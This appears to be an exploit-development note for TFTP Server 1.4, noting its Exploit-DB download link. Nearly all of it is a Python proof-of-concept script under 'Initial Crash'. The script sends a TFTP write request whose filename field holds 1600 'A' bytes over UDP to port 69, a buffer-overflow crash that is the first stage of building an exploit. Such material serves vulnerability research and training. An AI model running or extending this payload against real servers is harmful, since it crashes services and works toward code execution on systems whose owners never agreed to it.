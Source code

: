 # TFTP Server 1.4

Downloaded from: https://www.exploit-db.com/apps/f07b073307052ccfb02fe1af243bb229-tftpserverspV1.4.tar.gz

## Initial Crash
```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 69
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 1600 # change me

payload = b"A" * CRASH_LEN

mode = b"netascii"
packet = b"\x00\x02" + payload + b"\x00" + mode + b"\x00"

s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)

s.sendto(packet, (TARGET_IP, TARGET_PORT))
```
